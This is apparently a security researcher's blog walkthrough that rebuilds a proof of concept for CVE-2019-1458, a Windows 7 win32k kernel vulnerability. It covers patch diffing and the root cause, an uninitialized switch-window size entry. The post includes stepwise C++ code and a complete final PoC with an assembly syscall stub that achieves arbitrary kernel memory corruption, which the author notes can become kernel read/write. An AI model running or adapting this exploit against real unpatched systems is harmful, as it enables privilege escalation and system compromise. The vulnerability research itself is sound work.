




# CVE-2019-1458: Going from 'in the wild report' to POC

## Intro

In December Kaspersky published a blogpost about [0day exploit used in the wild][1]. It piqued my interest because although they described how the exploit was working, they didn't provide any POC in their analysis.
This is why I decided to try writing POC for this vulnerability based on Kaspersky's blogpost and patch analysis.  
This post describes my journey doing that. 

## Information gathering:

First thing was to collect as much information about this vulnerability as I could.
Reading through mentioned blogpost I extracted following information:

- Vulnerability is related to window switching functionality
- Requires simulating ALT key presses to trigger
- There needs to be two calls to undocumented `NtUserMessageCall` API
- Special switch window needs to be created
- There was some reference to kernel function `win32k!DrawSwitchWndHilite`

Beside that there is nice screenshot of decompiled code showing some of previously listed things.
To be exact it shows: creation of switch window, call to function named `toggle_alt_key` and multiple calls to `NtUserMessageCall`. 


[Image source][1]

A lot of useful information, but it still doesn't describe how exactly this vulnerability works and how to trigger it.

### Patch diffing
[Affected module was win32k.sys][2]. I downloaded both patched and unpatched versions of this module.   
For win7 x64 those were: 

- patched: KB4530692 
- unpatched: KB4525233 

They can be downloaded from [Microsoft Update Catalog][3]

Here is bindiff result of comparing both versions


After ruling out functions related to `DebugHook` functionality all we are really left with is this slightly changed function `InitFunctionTables()`


Definitely not the biggest patch out there.  
This won't help to immediately identify root cause of this vulnerability. But it's worth noting that some initial values for variables at
`*(gpsi+0x14E), *(gpsi+0x154), *(gpsi+0x180)` have been added. So this might be a bug related to uninitialized variable.

## POC building - step by step 
In this section I will present how I progressively build up POC that triggers this vulnerability, while simultaneously figuring out what the vulnerability actually was.

### Where to start
Patch diffing didn't give too much useful info at the beginning, so I relied mostly on Kaspersky's blogpost at first stage of development.  
To have a good testing environment I prepared Win7 SP1 x64 VM with last vulnerable version of win32k running. On top of that I attached Windbg to this VM to do kernel debugging and while doing that I also set up symbol server path.  
I started my investigation by looking at `win32k!DrawSwitchWndHilite` which was mentioned in blogpost. It is being called from two places: `xxxMoveSwitchWndHilite` and `xxxPaintSwitchWindow`, latter one immediately got my attention, because of surrounding `GetKeyState/GetAsyncKeyState` calls that were mentioned in original report. What is more those calls are checking for ALT key being pressed.

  
*Call to `DrawSwitchWndHilite` from `xxxPaintSwitchWindow`* 

Further following call cross references (`xxxWrapSwitchWndProc`->`xxxSwitchWndProc`->`xxxPaintSwitchWindow`->`DrawSwitchWndHilite`) I found that first element in that chain is referenced in `InitFunctionTables`, function that was fixed in patch.

Next I looked into `NtUserMessageCall` from screenshot of decompiled code. 
Here is declaration of this function

```cpp
NtUserMessageCall(HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam, ULONG_PTR ResultInfo, DWORD dwType, BOOLEAN bAnsi)
```

Exploit is calling it with `msg = 0x14` and `dwType = 0xE0`. Let's see what it does.

```cpp
HINSTANCE hInstance = GetModuleHandle(NULL);
WNDCLASSEX wcx;
ZeroMemory(&wcx, sizeof(wcx));
wcx.hInstance = hInstance;
wcx.cbSize = sizeof(wcx);
wcx.lpszClassName = L"SploitWnd";
wcx.lpfnWndProc = DefWindowProc;

printf("[*] Registering window\n");
ATOM wndAtom = RegisterClassEx(&wcx);
if (wndAtom == INVALID_ATOM) {
    printf("[-] Failed registering SploitWnd window class\n");
    exit(-1);
}

printf("[*] Creating instance of this window\n");
HWND sploitWnd = CreateWindowEx(0, L"SploitWnd", L"", 0, 0, 0, 0, 0, NULL, NULL, hInstance, NULL);
if (sploitWnd == INVALID_HANDLE_VALUE) {
    printf("[-] Failed to create SploitWnd window\n");
    exit(-1);
}
NtUserMessageCall(sploitWnd, WM_ERASEBKGND, 0, 0, 0, 0xE0, 1);
```

Here I registered simple window class and created window of that class. Then called `NtUserMessageCall` with same parameters as exploit. To see what happens under the hood I setup breakpoint `kd> ba e 1 win32k!NtUserMessageCall` and run the code.
There are quite a few calls being made to this function so I had to catch the right one, but it wasn't that difficult, it was the one with really short callstack.

  
*`NtUserMessageCall`*

Stepping through code revealed that it calls function from `gapfnMessageCall` array, index is calculated based on `msg` value and is equal to 0, so the call is made to `NtUserfnDWORD`

  
*`NtUserfnDWORD`*

Next call is made using `dwType` value, and now `gpsi` offset equals to 0x40, and call leads to `xxxWrapSwitchWndProc` (this function already appeared when I was checking `DrawSwitchWndHilite` call chain).  
`xxxWrapSwitchWndProc` simply calls `xxxSwitchWndProc`.

  
*`xxxSwitchWndProc`*

And this is the end, code fails here, not going any further to `xxxPaintSwitchWindow`, which is where we want to get based on `msg` value (`0x14`). Let's check why.

### Triggering correct path
Code fails at this stage because, as highlighted on previous image, fnid of our window is not equal to `0x2A0` (`FNID_SWITCH`) and message we are sending is not equal to 1, hence we end up in `xxxDefWindowProc`. To avoid this scenario we have to call `xxxSwitchWndProc` with fnid set to `FNID_SWITCH`, so that we will go straight to switch statement and later to `xxxPaintSwitchWindow`.   
How to set correct fnid? Actually the same function does it in the first if block, we just have to fail all checks inside it to get to the instruction setting fnid.

Here are conditions we need to meet, to fail all three if checks:

- `fnid == 0` and `cbwndExtra + 0x128 >= *(gpsi + 0x154)`  
fnid is equal `0` for each newly created user windows. 
`*(gpsi+0x154)` is equal `0` in upatched win32k! But even if it was set to `0x130`, like in patched version, we could set `cbwndExtra` to 8 or higher and still bypass first check.
- `msg == 1`  
Can be set in `NtUserMessageCall` call. Although with `msg` set to `1` control flow passes through `NtUserfnINLPCREATESTRUCT` instead of `NtUserfnDWORD` but it still ends up in the `xxxSwitchWndProc`
- `extraData == 0`  
ExtraData size can be set when registering window class using mentioned `cbwndExtra`. ExtraData is appended right after `tagWND` structure (I added this field to `tagWND` structure in IDA as `QWORD` at offset `sizeof(tagWND)`, to make decompiled code a bit nicer). It's value can be set with call to `SetWindowLongPtr`.

If all those conditions are met, window's fnid will be set to `FNID_SWITCH`.   
So now we need to call `NtUserMessageCall` twice, first time with `msg` equal `1` to set desired fnid, and second time to reach `xxxPaintSwitchWindow`.

```cpp
HINSTANCE hInstance = GetModuleHandle(NULL);
WNDCLASSEX wcx;
ZeroMemory(&wcx, sizeof(wcx));
wcx.hInstance = hInstance;
wcx.cbSize = sizeof(wcx);
wcx.lpszClassName = L"SploitWnd";
wcx.lpfnWndProc = DefWindowProc;
wcx.cbWndExtra = 8; //to pass check in xxxSwitchWndProc 

printf("[*] Registering window\n");
ATOM wndAtom = RegisterClassEx(&wcx);
if (wndAtom == INVALID_ATOM) {
    printf("[-] Failed registering SploitWnd window class\n");
    exit(-1);
}

printf("[*] Creating instance of this window\n");
HWND sploitWnd = CreateWindowEx(0, L"SploitWnd", L"", 0, 0, 0, 0, 0, NULL, NULL, hInstance, NULL);
if (sploitWnd == INVALID_HANDLE_VALUE) {
    printf("[-] Failed to create SploitWnd window\n");
    exit(-1);
}

printf("[*] Calling NtUserMessageCall to set fnid = 0x2A0 on window\n");
NtUserMessageCall(sploitWnd, WM_CREATE/* = 1*/, 0, 0, 0, 0x0, 1);

printf("[*] Calling NtUserMessageCall second time");
NtUserMessageCall(sploitWnd, WM_ERASEBKGND/* = 0x14*/, 0, 0, 0, 0x0, 1);
```

I added `extraData` to window class and added second call to `NtUserMessageCall`. Now control flow is able to reach `xxxPaintSwitchWindow`.
(Side note: `dwType` doesn't have to be equal to `0xE0`, `0` works just as well, since it's anded with `0x1F` anyway in `NtUserfnDWORD`)


*`xxxPaintSwitchWindow`*

Upon closer examination I noticed that value `extraWndData` taken from window object (line 25) is being used as a pointer to write to (line 46-52)! If I can reach the code that sets `extraWndData` to value controlled by me I can corrupt some arbitrary memory!  
To reach it I first need to pass some more check (marked with red)

- Check if window has flag `WS_VISIBLE` set.  
This flag can be set in `CreateWindowEx`
- `fnid == 0x2A0` and `cbwndExtra + 0x128 == *(gpsi + 0x154)`  
Fnid is already set by first `NtUserMessageCall`.  
The problem arises with second part of this check because `*(gpsi + 0x154)` is not initialized in vulnerable `win32k` module, hence this check will always fail. Unless we somehow set `*(gpsi+0x154)` to correct value. It turns out that creating special switch window, mentioned in Kaspersky's post does exactly that. 
- Check if window is not destroyed.  
Already fulfilled in this case.

To create special [switch window][4], we need to call `CreateWindowEx` with name set `0x8003` (`#32771`). This will eventually lead to `InternalRegisterClassEx` being called in the kernel.


*fragment of `InternalRegisterClassEx` function*

This will initialize `*(gpsi+0x154)` to `0x130`.
The side effect of this is that once we set this variable, there is no way to reset it back to 0. So we only have one chance to run the exploit. Any other attempts, until next reboot will fail.


### Controlling dereferenced value

I am now able to control `extraWndData` that is later dereferenced as pointer and written to in `xxxPaintSwitchWindow`. `extraWndData` can be controlled by calling 

```cpp
SetWindowLongPtr(HWND hWnd, int nIndex, LONG_PTR dwNewLong)
```

One thing to keep in mind is that this call has to be made after first `NtUserMessageCall` call, because as was shown `xxxSwitchWndProc` needs window's `extraData` set to 0 on this first call, to bypass necessary checks.
Also `SetWindowLongPtr` has to be invoked before creation of switch window, and here is why:


*fragment of xxxSetWindowLong function*

__This is where we actually make use of uninitialized `*(gpsi + 0x154)` variable.__
When this check passes we set `wnd->extraData` to arbitrary value.
If this was correctly initialized, exploit would fail here.

```cpp
HINSTANCE hInstance = GetModuleHandle(NULL);

WNDCLASSEX wcx;
ZeroMemory(&wcx, sizeof(wcx));
wcx.hInstance = hInstance;
wcx.cbSize = sizeof(wcx);
wcx.lpszClassName = L"SploitWnd";
wcx.lpfnWndProc = DefWindowProc;
wcx.cbWndExtra = 8; //to pass check in xxxSwitchWndProc

printf("[*] Registering window\n");
ATOM wndAtom = RegisterClassEx(&wcx);
if (wndAtom == INVALID_ATOM) {
	printf("[-] Failed registering SploitWnd window class\n");
	exit(-1);
}

printf("[*] Creating instance of this window\n");
HWND sploitWnd = CreateWindowEx(0, L"SploitWnd", L"", WS_VISIBLE, 0, 0, 0, 0, NULL, NULL, hInstance, NULL);
if (sploitWnd == INVALID_HANDLE_VALUE) {
	printf("[-] Failed to create SploitWnd window\n");
	exit(-1);
}

printf("[*] Calling NtUserMessageCall to set fnid = 0x2A0 on window\n");
NtUserMessageCall(sploitWnd, WM_CREATE, 0, 0, 0, 0x0, 1);

printf("[*] Calling SetWindowLongPtr to set window extra data, that will be later dereferenced\n");
SetWindowLongPtr(sploitWnd, 0, 0x4141414141414);
printf("[*] GetLastError = %x\n", GetLastError());

printf("[*] Creating switch window #32771, this has a result of setting (gpsi+0x154) = 0x130\n");
HWND switchWnd = CreateWindowEx(0, (LPCWSTR)0x8003, L"", 0, 0, 0, 0, 0, NULL, NULL, hInstance, NULL);

printf("[*] Triggering dereference of wnd->extraData by calling NtUserMessageCall second time");
NtUserMessageCall(sploitWnd, WM_ERASEBKGND, 0, 0, 0, 0x0, 1); 
```

Here is the result of running above code



Shortly after this we get a bugcheck when `rdi` gets dereferenced.  
Running the same exploit on patched windows:

```
[*] Registering window
[*] Creating instance of this window
[*] Calling NtUserMessageCall to set fnid = 0x2A0 on window
[*] Calling SetWindowLongPtr to set window extra data, that will be later dereferenced
bold:[*] GetLastError = 585
[*] Creating switch window #32771, this has a result of setting (gpsi+0x154) = 0x130
[*] Triggering dereference of wnd->extraData by calling NtUserMessageCall second time
```

`SetWindowLongPtr` fails with error code `0x585` because of properly initialized `*(gpsi + 0x154)`. And kernel doesn't crash.

### Root cause (recap)
To summarize the main issue was uninitialized variable `*(gpsi+0x154)`.  
But what is this value, why is it important?  
`gpsi` is a global pointer to [`tagSERVERINFO`][5] structure. This structure among other things describes system windows (meaning menus, desktop, switch etc), as opposed to user defined windows.
Those system windows are identified by their FNID, for example `0x2A0` means switch window.   

When window class is defined using `RegisterClassEx`, we have opportunity to specify `cbWndExtra` field on `WNDCLASSEX`, this field describes how many extra bytes will be allocated in addition to `tagWND` structure, to store some window specific information. 
We then are able to modify those extra bytes using `SetWindowLongPtr`.
System windows use exactly the same mechanism to store additional data they require for working. But in principle this data should not be reachable using `SetWindowLongPtr`.
And we saw that indeed there is a check in `xxxSetWindowLongPtr` that should prevent it. After applying type information this is the check:

```
if (nIndex >= gpsi->mpFnid_serverCBWndProc[(window->fnid & 0x3FFF) - FNID_FIRST] - sizeof(tagWND))
    goto exit_with_error
```

Array `gpsi->mpFnid_serverCBWndPro`c describes what is the size of given system window object including extra data. 
`*(gpsi+0x154)` becomes `gpsi->mpFnid_serverCBWndProc[FNID_SWITCH - FNID_FIRST]`
By leaving this field uninitialized `xxxSetWindowLongPtr` thinks that size of extra data is `-sizeof(tagWND)`, hence we are able to write into field that should be private to switch window's structure.

Root cause of this vulnerability was then an uninitialized (or rather initialized to 0 by default) variable `gpsi->mpFnid_serverCBWndProc[FNID_SWITCH - FNID_FIRST]`.
This explains why the patch was so small. All that had to be done was to set it to `sizeof(tagWND) + 8`. In the same fashion now also other `mpFnid_serverCBWndProc` array elements are initialized that previously were not (`FNID_DESKTOP`, `FNID_TOOLTIPS`), probably to also prevent any future variants of this exploit.



## Corrupting memory
With the current state of the exploit we are able to trigger bugcheck, but the crash occurs on instruction:

```asm
xxxPaintSwitchWindow + 0x8B:
cmp     [rdi+6Ch], r13d		; rdi = 0x4141414141414
```

Last step of preparing this POC would be then to trigger more useful crash or better yet get some memory corrupted and not crash at all.  

To met this last goal we need to:

- Provide a valid pointer to RW memory.  
I choose to allocate some memory using `VirtualAlloc` and pass returned pointer to `SetWindowLongPtr`
- Simulate ALT key press.  
As previously noted, there are calls to `GetKeyState/GetAsyncKeyState` in `xxxPaintSwitchWindow` that are checking if ALT key is pressed. And if this is not the case function exits.  
Whether to use `GetKeyState` or `GetAsyncKeyState` is decided based on flag in `[extraWndData+6Ch]`. 
I choose to simulate ALT pressing using call to `SetKeyboardState`. This will work only with `GetKeyState` so I need to set value at offset `0x6C` to `1`

```cpp
ptr = VirtualAlloc(0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
SetWindowLongPtr(sploitWnd, 0, ptr);

BYTE keyData[256];
GetKeyboardState(keyData);
keyData[VK_MENU] |= 0x80;		// simulate ALT 
SetKeyboardState(keyData);

((BYTE*)ptr)[0x6c] = 1;		// force use of GetKeyState inside xxxPaintSwitchWindow
```

With this code I got a different crash

```asm
DrawSwitchWndHilite + 0x10A:
mov     rcx, [r12+20h]
mov     dl, 1
mov     rcx, [rcx]		; rcx = 0
```

So I also provide a valid pointer at offset `0x20` (that points to itself)

```cpp
ptr[0x20 / sizeof(*ptr)] = ptr; // make double derefence succeed
```

Now the exploit works without crashing, and when we examine content of allocated page we can see that it was modified!


We achieved a stable exploit POC that corrupts memory provided to it. This is much better situation than POC crashing on memory read, because this arbitrary memory corruption can be more easily turned into arbitrary kernel read/write. Plus we have already extracted requirements that memory to be corrupted has to met. 

## Conclusion
In this walkthrough I presented how I went from the description of the exploit and vulnerability to working POC that can be turned into useful kernel exploit.
This was quite interesting exploit that was possible because of one missing line. So I guess the takeaway is always initialize your global variables.

## POC

``` cpp
#include <cstdio>
#include <windows.h>

extern "C" NTSTATUS NtUserMessageCall(HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam, ULONG_PTR ResultInfo, DWORD dwType, BOOL bAscii);

int main() {    
    HINSTANCE hInstance = GetModuleHandle(NULL);

    WNDCLASSEX wcx;
    ZeroMemory(&wcx, sizeof(wcx));
    wcx.hInstance = hInstance;
    wcx.cbSize = sizeof(wcx);
    wcx.lpszClassName = L"SploitWnd";
    wcx.lpfnWndProc = DefWindowProc;
    wcx.cbWndExtra = 8; //pass check in xxxSwitchWndProc to set wnd->fnid = 0x2A0
   
    printf("[*] Registering window\n");
    ATOM wndAtom = RegisterClassEx(&wcx);
    if (wndAtom == INVALID_ATOM) {
        printf("[-] Failed registering SploitWnd window class\n");
        exit(-1);
    }

    printf("[*] Creating instance of this window\n");
    HWND sploitWnd = CreateWindowEx(0, L"SploitWnd", L"", WS_VISIBLE, 0, 0, 0, 0, NULL, NULL, hInstance, NULL);
    if (sploitWnd == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to create SploitWnd window\n");
        exit(-1);
    }

    printf("[*] Calling NtUserMessageCall to set fnid = 0x2A0 on window\n");
    NtUserMessageCall(sploitWnd, WM_CREATE, 0, 0, 0, 0xE0, 1);

    printf("[*] Allocate memory to be used for corruption\n");
    PVOID mem = VirtualAlloc(0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    printf("\tptr: %p\n", mem);
    PBYTE byteView = (PBYTE)mem;
    byteView[0x6c] = 1;             // use GetKeyState in xxxPaintSwitchWindow

    //pass DrawSwitchWndHilite double dereference
    PVOID* ulongView = (PVOID*)mem;
    ulongView[0x20 / sizeof(PVOID)] = mem;

    printf("[*] Calling SetWindowLongPtr to set window extra data, that will be later dereferenced\n");
    SetWindowLongPtr(sploitWnd, 0, (LONG_PTR)mem);
    printf("[*] GetLastError = %x\n", GetLastError());

    printf("[*] Creating switch window #32771, this has a result of setting (gpsi+0x154) = 0x130\n");
    HWND switchWnd = CreateWindowEx(0, (LPCWSTR)0x8003, L"", 0, 0, 0, 0, 0, NULL, NULL, hInstance, NULL);

    printf("[*] Simulating alt key press\n");
    BYTE keyState[256];
    GetKeyboardState(keyState);
    keyState[VK_MENU] |= 0x80;
    SetKeyboardState(keyState);

    printf("[*] Triggering dereference of wnd->extraData by calling NtUserMessageCall second time");
    NtUserMessageCall(sploitWnd, WM_ERASEBKGND, 0, 0, 0, 0x0, 1);
}
```

```asm
_DATA SEGMENT
_DATA ENDS
_TEXT SEGMENT

PUBLIC NtUserMessageCall
NtUserMessageCall PROC
    mov r10, rcx
    mov eax, 1007h      ; Win7 sp1
    syscall
    ret
NtUserMessageCall ENDP
_TEXT ENDS
END
```


[1]: https://securelist.com/windows-0-day-exploit-cve-2019-1458-used-in-operation-wizardopium/95432/
[2]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1458
[3]: https://www.catalog.update.microsoft.com/Home.aspx
[4]: https://docs.microsoft.com/en-us/windows/win32/winauto/switch-window
[5]: https://www.reactos.org/wiki/Techwiki:Win32k/SERVERINFO
[6]: https://media.paloaltonetworks.com/lp/endpoint-security/blog/the-case-for-smep-exploiting-a-kernel-vulnerability.html
